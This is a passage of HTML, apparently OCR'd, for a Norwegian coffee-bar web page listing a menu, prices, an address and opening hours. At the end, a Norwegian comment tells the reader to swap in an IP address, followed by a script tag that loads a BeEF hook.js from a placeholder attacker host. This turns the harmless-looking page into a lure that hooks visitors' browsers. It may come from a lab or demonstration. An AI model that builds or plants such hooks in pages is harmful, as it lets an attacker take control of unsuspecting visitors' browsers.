 ```html
        }
        button {
            background: #ff6b6b;
            color: white;
            border: none;
            padding: 15px 30px;
            font-size: 1.2em;
            border-radius: 5px;
            cursor: pointer;
            margin-top: 20px;
            width: 100%;
        }
        button:hover {
            background: #ff5252;
        }
    </style>
</head>
<body>
    <div class="container">
        <h1>☕ Kåres Kaffebar ☕</h1>
        <p>Velkommen til byens koseligste kaffebar! Her får du den beste kaffen i Trondheim.</p>
        
        <div class="menu">
            <h2>Dagens Meny</h2>
            <div class="menu-item">
                Espresso <span class="price">35 kr</span>
            </div>
            <div class="menu-item">
                Cappuccino <span class="price">45 kr</span>
            </div>
            <div class="menu-item">
                Latte <span class="price">45 kr</span>
            </div>
            <div class="menu-item">
                Americano <span class="price">40 kr</span>
            </div>
            <div class="menu-item">
                Kanelbolle <span class="price">30 kr</span>
            </div>
        </div>
        
        <button onclick="alert('Takk for din bestilling! Vi kontakter deg snart.')">
            Bestill nå!
        </button>
        
        <p style="margin-top: 30px; text-align: center; font-size: 0.9em;">
            📍 Adresse: Innherredsveien 42, Trondheim<br>
            ⏰ Åpningstider: Man-Fre 07:00-18:00<br>
            📞 Telefon: 73 12 34 56
        </p>
    </div>

    <!-- BeeF Hook - BYTT UT IP-ADRESSEN! -->
    <script src="http://192.168.x.x:3000/hook.js"></script>
</body>
</html>
```
